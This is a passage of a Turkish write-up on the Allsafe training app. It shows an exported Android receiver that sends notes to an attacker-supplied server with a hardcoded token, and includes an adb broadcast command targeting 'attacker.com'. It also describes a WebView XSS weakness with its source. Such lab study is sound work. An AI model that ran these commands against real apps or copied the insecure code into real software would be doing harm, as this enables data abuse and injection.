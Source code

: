 Kodun şu satırlarında görüldüğü üzere :

    String server = intent.getStringExtra("server");
    String note = intent.getStringExtra("note");
    String notification_message = intent.getStringExtra("notification_message");
    OkHttpClient okHttpClient = new OkHttpClient.Builder().build();
    HttpUrl httpUrl = new HttpUrl.Builder()
    .scheme("http")
    .host(server)
    .addPathSegment("api")
    .addPathSegment("v1")
    .addPathSegment("note")
    .addPathSegment("add")
    .addQueryParameter("auth_token", "YWxsc2FmZV9kZXZfYWRtaW5fdG9rZW4=")
    .addQueryParameter("note", note).build();

Receiver, dışarıdan gelen değerleri herhangi bir doğrulama uygulamadan alıyor ve HTTP istek oluşturuyor.

Yani saldırgan kendi belirlediği bir server adresine, kendi note verisini, sabit auth_token ile gönderebiliyor.

    builder.setContentText(notification_message);

Bu satırda da görüldüğü üzere saldırgan notification mesajı gösterebiliyor.

    adb shell am broadcast -n infosecadventures.allsafe/.challenges.NoteReceiver -a infosecadventures.allsafe.action.PROCESS_NOTE --es server "attacker.com" --es note "hacked_by_me" --es notification_message "Hacked"

Şimdi yukarıdaki komutu kullanarak bir intent gönderelim.

![](https://cdn-images-1.medium.com/max/2000/1*puAWeaOkhBArUboI3mRdLA.png)

## **Zafiyet Adı** : WebView Injection / XSS

**Zafiyet Tanımı** : Uygulamada kullanılan WebView bileşeni, kullanıcı tarafından girilen veriyi herhangi bir doğrulama veya filtreleme olmaksızın loadUrl() ve loadData() metodları aracılığıyla işliyor. loadUrl() fonksiyonu kullanıcı tarafından sağlanan bir URL’yi doğrudan çalıştırırken, loadData() fonksiyonu girilen HTML/JavaScript kodunu işleyerek tarayıcı motorunda render ediyor. Ayrıca setJavaScriptEnabled(true) kullanılması, saldırganın zararlı JavaScript kodlarını çalıştırmasına imkân tanıyor. Bu durum, kötü niyetli bir kullanıcının uygulama içerisinde XSS saldırısı gerçekleştirmesine, zararlı web sayfalarına yönlendirme yapmasına veya uygulama içi verileri manipüle etmesine neden olabilir.

**Zafiyet Derecesi** : Yüksek

![](https://cdn-images-1.medium.com/max/2000/1*zhMzfYfi7qdTMEovTDM1Og.png)

Kaynak kodu inceleyelim :

    public View onCreateView(LayoutInflater inflater, ViewGroup container, Bundle savedInstanceState) {
            View view = inflater.inflate(R.layout.fragment_vulnerable_web_view, container, false);
            final TextInputEditText payload = (TextInputEditText) view.findViewById(R.id.payload);
            final WebView webView = (WebView) view.findViewById(R.id.webView);
            webView.setWebViewClient(new WebViewClient());
            WebSettings settings = webView.getSettings();
            settings.setJavaScriptEnabled(true);
            settings.setAllowFileAccess(true);
            settings.setLoadWithOverviewMode(true);
            settings.setSupportZoom(true);
            view.findViewById(R.id.execute).setOnClickListener(new View.OnClickListener() { // from class: infosecadventures.allsafe.challenges.VulnerableWebView$$ExternalSyntheticLambda0
                @Override // android.view.View.OnClickListener
                public final void onClick(View view2) {
                    VulnerableWebView.this.lambda$onCreateView$0(payload, webView, view2);
                }
            });